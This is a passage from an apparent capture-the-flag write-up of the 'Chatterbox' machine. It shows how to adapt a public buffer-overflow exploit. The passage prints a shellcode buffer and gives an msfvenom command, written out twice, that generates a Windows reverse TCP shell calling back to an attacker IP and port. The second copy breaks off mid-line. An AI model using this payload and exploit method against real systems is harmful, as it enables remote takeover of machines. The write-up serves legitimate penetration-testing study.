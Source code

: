 Immediately 3 things stand out:  
1. There's an msfvenom command in here for generating a payload, but it looks like it's just a POC designed to spawn the calculator.
![screenshot](../images/Chatterbox/36025_msfvenom.jpg)
2. This script hasn't been parameterized so we'll have to edit the IP address to fit our case.
![screenshot](../images/Chatterbox/36025_socket.jpg)
3. There's a bunch of shell code in the middle of the script. I'm betting this is the payload.
```python
buf =  b""                                                                                                                                                                               
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"                                                                                                                               
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"                                                                                                                               
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51"                                                                                                                               
buf += b"\x41\x44\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59"                                                                                                                               
buf += b"\x41\x49\x41\x51\x41\x49\x41\x51\x41\x49\x41\x68"                                                                                                                               
buf += b"\x41\x41\x41\x5a\x31\x41\x49\x41\x49\x41\x4a\x31"                                                                                                                               
buf += b"\x31\x41\x49\x41\x49\x41\x42\x41\x42\x41\x42\x51"                                                                                                                               
buf += b"\x49\x31\x41\x49\x51\x49\x41\x49\x51\x49\x31\x31"                                                                                                                               
buf += b"\x31\x41\x49\x41\x4a\x51\x59\x41\x5a\x42\x41\x42"
```

So... Let's start with the msfvenom. The script as it exists originally, generates some shellcode to spawn the calculator on the host system. Well, that's not very useful to us. We're not hacking this thing so we can do our taxes. Buuuuuuut, we can change that command, to maybe a reverse shell or something useful. Maybe something like this:  
```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.25 LPORT=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\
    x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\x
    bd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xe
    b\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```
This should give us a reverse shell. This command is going to spit out something that looks like the stuff in the middle of our script, so we need to take the output of msfvenom and replace those lines in our script.
```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.25 LPORT=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x
8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\x 
bd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xe
```